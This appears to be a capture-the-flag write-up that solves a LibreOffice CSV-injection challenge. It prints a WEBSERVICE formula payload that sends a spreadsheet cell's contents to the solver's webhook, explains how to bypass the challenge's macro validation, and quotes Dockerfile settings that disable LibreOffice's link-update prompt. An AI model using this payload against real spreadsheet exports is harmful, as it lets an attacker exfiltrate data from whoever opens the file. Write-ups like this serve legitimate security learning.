

# Solution - CTF VSC part 1

The vulnerability is a [CSV injection](https://owasp.org/www-community/attacks/CSV_Injection). We can inject formulas (i.e. cells that start with `=` e.g. `=2*2`) in our input, which will then be evaluated when opened by libreoffice. By crafting a malicious formula, we can exfiltrate data - in this case, the flag.

The filter `Module1.xba` will:
1. Check whether award_cat and ctf_cat are valid
2. If they are valid, edit admin_verification value to be the flag. If not, write "N".

## Solution

We can use the following payload:

```
=WEBSERVICE(CONCAT("[your webhook url here]?v=",C4))
```

- `=WEBSERVICE` fetches data from a website, with the returned data appearing as a text in the cell.
- `CONCAT("[your webhook url here]?v=",C4)` will return your webhook url with the flag (which is at cell C4) as the parameter `v`
- Overall: this payload will send a request to our webhook, with the value of the flag being under the parameter `v`.

However, the macro checks whether the cell data is valid (i.e. for award cat, the cell must write either "best", "worst", "easiest" or "hardest"). So, we need our webhook to display "best" (or another award cat) when fetched. This can be done on webhook.site (see below).



TL;DR: 
- Have award_cat be `=WEBSERVICE(CONCAT("[your webhook url here]?v=",C4))`
    - Note: you can also input the payload as ctf_cat
- Have your other input, in this case ctf_cat, be something legitimate
- Configure your webhook to return a valid award_cat e.g. "best", in order to bypass the macro validation

See [solve.py](solve.py) for solve.

---

Note: there were multiple additional configurations in place to ensure that the `WEBSERVICE` request works:

1. In the Dockerfile, the libreoffice settings were edited to allow for `WEBSERVICE` requests to run automatically. This is needed for the challenge because normally, you would need to approve the request.

```sh
RUN echo $'<?xml version="1.0" encoding="UTF-8"?>\n\
<oor:items xmlns:oor="http://openoffice.org/2001/registry" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">\n\
<item oor:path="/org.openoffice.Office.Calc/Content/Update"><prop oor:name="Link" oor:op="fuse"><value>0</value></prop></item>\n\
<item oor:path="/org.openoffice.Office.Common/Security/Scripting"><prop oor:name="SecureURL" oor:op="fuse"><value><it>$(home)</it></value></prop></item>\n\
</oor:items>' > ~/.config/libreoffice/4/user/registrymodifications.xcu
```

2. In app.py, under the infilter option (`--infilter="Text - txt - csv (StarCalc):44,34,0,1,,0,,,,,,,true,,true"`), the setting `Import as formulas` is indicated to be True. (see [libreoffice docs](https://help.libreoffice.org/latest/he/text/shared/guide/csv_params.html))

3. In Module1.xba, there is a `Wait 3000`. This is to give the server sufficient time to request the webhook and return its data.


